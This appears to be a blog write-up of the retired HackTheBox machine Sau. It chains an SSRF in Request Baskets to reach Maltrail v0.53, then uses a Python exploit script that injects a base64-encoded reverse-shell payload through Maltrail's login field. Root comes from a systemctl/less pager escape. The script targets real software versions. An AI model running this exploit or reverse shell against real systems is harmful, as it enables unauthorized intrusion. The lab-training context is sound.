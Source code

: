 ```yaml
---
title: "HackTheBox: Sau"
collection: publications
permalink: /publication/sau
excerpt: 'This is a retired machine from HackTheBox'
date: 2023-12-08
venue: '12-08'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/sau_header.png)

**LINK:** [Broker](https://app.hackthebox.com/machines/Sau)

Sau is an easy machine on HackTheBox that presents an interesting path to compromise through multiple vulnerabilities. The initial foothold is gained by exploiting an SSRF in an outdated version of the requests-basket HTTP server. This SSRF vulnerability reveals an internally accessible application, Maltrail v0.53, running on port 80. Leveraging a Remote Code Execution vulnerability in Maltrail provides unauthorized access to the machine. Executing systemctl as puma allows us to spawn another shell in the pager with root privileges.

---

## Enumeration : 

* Let's start off with an nmap scan :

```bash
nmap -A -p- 10.10.11.224
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-08 05:47 EST
Nmap scan report for 10.10.11.224
Host is up (0.22s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
```

* The scan reveals 2 open ports and 1 filtered port:
    - Port 22: SSH service
    - Port 80: HTTP server (filtered)
    - Port 5555: Unknown service

* Visiting port 5555 redirects to ``http://10.10.11.224:5555/web``, There, I stumbled upon a web service called "Request Baskets" running version 1.2.1. It seemed interesting because I could create baskets, send requests, and see the data.

![sau1](/images/sau1.png)

* A quick Google search exposed an SSRF vulnerability (CVE-2023–27163) in this version.

![sau2](/images/sau2.png)

* Now, here's where things got intriguing. I decided to exploit the SSRF vulnerability to redirect internal requests on the server to Port 80. I edited the configuration settings to forward requests to ``http://127.0.0.1:80`` .

![sau3](/images/sau3.png)

* After applying the changes, I discovered the "Maltrail" app running on Port 80, version v0.53. A bit more digging revealed an RCE vulnerability in this version.

![sau4](/images/sau4.png)

![sau5](/images/sau5.png)

# User Flag : 

* Exploiting this RCE vulnerability involved creating a basket using the previous CVE to redirect to Maltrail's login page at ``http://127.0.0.1:80/login`` .

* To get a reverse shell, I set up a netcat listener.

![sau6](/images/sau6.png)

* Now it's time to execute the python script to get the reverse shell.

```bash
import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```

```bash
python3 exploit.py <your-ip-address> <listening-port> http://10.10.11.224:5555/<Basket-name>
```
![sau7](/images/sau7.png)

* I got a user shell as the ``puma`` user.

![sau8](/images/sau8.png)

# Root Flag : 

* Now, moving on to privilege escalation part, I ran ``sudo -l`` and found that I could execute ``systemctl`` as the root user.

![sau9](/images/sau9.png)

* Checking the status of ``trail.service`` with ``systemctl``, I noticed the output was processed through ``less`` providing an opportunity to spawn a shell as the root user using ``!sh``.

![sau10](/images/sau10.png)

# Conclusion : 

Sau offers a diverse range of challenges, from exploiting an initial ``SSRF`` in an outdated requests-basket to leveraging a ``RCE`` in the internal Maltrail application. The machine's design emphasizes the importance of thorough enumeration and persistence in identifying and exploiting multiple vulnerabilities. Privilege escalation, though straightforward, highlights the significance of analyzing user privileges to achieve root access.






